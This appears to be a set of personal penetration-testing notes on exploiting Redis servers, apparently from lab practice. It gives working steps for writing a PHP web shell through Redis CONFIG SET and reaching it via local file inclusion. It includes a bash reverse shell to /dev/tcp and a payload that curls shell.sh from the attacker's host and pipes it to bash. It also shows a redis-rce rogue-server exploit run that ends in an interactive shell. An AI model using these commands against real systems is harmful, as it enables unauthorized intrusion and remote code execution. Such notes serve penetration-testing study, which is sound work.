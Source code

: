 # REDIS Exploitation

Redis is a really dangerous service that we can use to load modules and other cool stuff while there are other open services around.&#x20;

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis" %}

This guide has all we need to know.&#x20;

{% embed url="https://github.com/n0b0dyCN/RedisModules-ExecuteCommand" %}

This github will have the module.so that we need, just type "make".&#x20;

If we know and the service has write access try to upload files to the directories that a webserver is running. /var/www/html is a common one.&#x20;

So the key is to look around in places that we have file upload vulnerability and figure out paths.&#x20;

* [ ] Check the blog
* [ ] Enumerate
* [ ] Enumerate dbs
* [ ] Possible exploitable version
* [ ] Try PHP Webshell if webserver is open
* [ ] Try SSH key
* [ ] Try uploading module.so to ftp if possible and see if we can figure out hte path where that exact one is located so that we can locate module and execute commands

/var/ftp/anon/\<directory-name-if-applies> is usaully where the anonymous root folder is located at.&#x20;

{% embed url="https://app.gitbook.com/s/FXeC5YxTHfutkog2Ggfm/exploitation" %}

### REDIS + LFI&#x20;

With the Local File Inclusion you could possibly use it to locate the credentials for the redis service.

#### Possible Locations

* [ ] /etc/redis/redis.conf
* [ ] /usr/local/etc/redis.conf
* [ ] /opt/redis/

Now with credentials we can authenticate using the following command.

```
redis -h <ip>
auth <password>
```

The next thing we should try to do is enumerate the places we can write to using the configuration file of redis as well. This will be done through local file inclusion.&#x20;

```
/etc/systemd/system/redis.service
```

Once done it will give you a bunch of places where redis can write to, so now what we can do is invoke a php reverse shell or make the computer get our reverse shell.

```
─ redis-cli -h 192.168.135.166
192.168.135.166:6379> Auth Ready4Redis?
OK
192.168.135.166:6379> config set dir /opt/redis-files
OK
192.168.135.166:6379> config set dbfilename redis.php
OK
192.168.135.166:6379> 
192.168.135.166:6379> set test "<?php system($_GET['cmd']); ?>"
OK
192.168.135.166:6379> save
```

We then navigate to it with the LFI and we should get the cmd parameter. The rest is up to you.

This other method will require us to curl a shell.sh file.&#x20;

```
192.168.135.166:6379> config set dbfilename redisss.php
OK
192.168.135.166:6379> set test "<?php system('whoami'); ?>"
OK
192.168.135.166:6379> save
```

![](<../../../.gitbook/assets/image (7).png>)

So we create a shell.sh file.&#x20;

```bash
#!/bin/bash

bash -i >& /dev/tcp/192.168.49.135/80 0>&1
```

We will host a webserver on whatever port we want. With redis we will execute the following command and use local file inclusion to execute the php code.&#x20;

```
config set dbfilename redisssss.php
OK
192.168.135.166:6379> set test "<?php system('curl http://192.168.49.135:22/shell.sh | bash'); ?>"
OK
192.168.135.166:6379> save

```

Use local file inclusion to navigate to the php file.&#x20;

![](<../../../.gitbook/assets/image (29).png>)

### Redis 4.x / 5.x Exploitation&#x20;

{% embed url="https://github.com/Ridter/redis-rce" %}

```
╭─      /home/kali/BG/redis-rce     master ?1 ▓▒░────────────────────────────────────────────────░▒▓ ✔  15s    root@kali 
╰─ python3 redis-rce.py -r 192.168.242.176 -p 6379 -L 192.168.49.242 -P 6379 -f /home/kali/BG/redis-rce/redis-rogue-server/RedisModulesSDK/exp/exp.so

█▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄       █▄▄▄▄ ▄█▄    ▄███▄   
█  ▄▀ █▀   ▀  █  █  ██   █     ▀▄     █  ▄▀ █▀ ▀▄  █▀   ▀  
█▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄       █▀▀▌  █   ▀  ██▄▄    
█  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀        █  █  █▄  ▄▀ █▄   ▄▀ 
  █   ▀███▀   ███▀   ▐                  █   ▀███▀  ▀███▀   
 ▀                                     ▀                   


[*] Connecting to  192.168.242.176:6379...
[*] Sending SLAVEOF command to server
[+] Accepted connection from 192.168.242.176:6379
[*] Setting filename
[+] Accepted connection from 192.168.242.176:6379
[*] Start listening on 192.168.49.242:6379
[*] Tring to run payload
[+] Accepted connection from 192.168.242.176:46704
[*] Closing rogue server...

[+] What do u want ? [i]nteractive shell or [r]everse shell or [e]xit: i
[+] Interactive shell open , use "exit" to exit...
$ ls
$ whoami
exp_lin.so
exp.so
snap.lxd
systemd-private-e28d10f1b9db42f4847a9d60b88d7429-systemd-logind.service-D0hrMh
systemd-private-e28d10f1b9db42f4847a9d60b88d7429-systemd-resolved.service-kR64tg
systemd-private-e28d10f1b9db42f4847a9d60b88d7429-systemd-timesyncd.service-i0lI9g
vmware-root_708-2998936538
$ nc
Aprudence

```

Use the exact same path as that In order to order for it to work. Then upgrade your shell using socat.
